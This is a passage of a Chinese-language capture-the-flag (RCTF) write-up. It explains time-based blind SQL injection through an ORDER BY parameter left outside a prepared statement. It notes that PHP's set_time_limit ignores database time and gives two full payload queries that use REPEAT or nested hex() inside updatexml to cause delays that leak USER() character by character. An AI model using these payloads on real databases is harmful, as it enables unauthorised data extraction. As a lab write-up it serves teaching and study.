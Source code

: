 `set_time_limit`函数会限制页面执行时间在1s，后面的`usleep`会让页面稳定延迟在1s，`SQL`语句用了预编译，但是参数却是在`order by`后面，所以根本没影响，还是可以注入.

而`set_time_limit`函数有这样的限制

> *Note:
> The set_time_limit() function and the configuration directive max_execution_time only affect the execution time of the script itself. Any time spent on activity that happens outside the execution of the script such as system calls using system(), stream operations, database queries, etc. is not included when determining the maximum time that the script has been running. This is not true on Windows where the measured time is real.*

也就是说SQL本身的延时并不在这个计时范围内，所以我们需要让`SQL`语句也延时，才能攻击成功，但是常规的`sleep`会被优化掉，需要让`SQL`做一些耗时间的工作，达到延迟的效果

#### `repeat`

```sql
SELECT
    CONCAT( 'RCTF{', USER (), '}' ) AS FLAG 
WHERE
    '🍬关注嘉然🍬' = '🍬顿顿解馋🍬' OR '🍬Watch Diana a day🍬' = '🍬Keep hunger away🍬' OR '🍬嘉然に注目して🍬' = '🍬食欲をそそる🍬' 
ORDER BY
(
    updatexml (1,
        IF(
            ASCII(SUBSTR((SELECT USER()), 1, 1 )) = 65,
            CONCAT(REPEAT('a', 40000000), REPEAT('a', 40000000), REPEAT('a', 40000000), REPEAT('a', 40000000), REPEAT('b', 10000000)),
            1
        ),
        1
    ) 
)
```

#### `hex`

```sql
SELECT
    CONCAT( 'RCTF{', USER (), '}' ) AS FLAG 
WHERE
    '🍬关注嘉然🍬' = '🍬顿顿解馋🍬' OR '🍬Watch Diana a day🍬' = '🍬Keep hunger away🍬' OR '🍬嘉然に注目して🍬' = '🍬食欲をそそる🍬' 
ORDER BY
(
    updatexml (1,
        concat(
            '~',
            (
                if(
                    (substr(hex(user()), 1, 1)='A'),
                    (select length(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex('1')))))))))))))))))))))))))))))))),
                    'a'
                )
            ),
            1
        ),
        1
    )
)
```
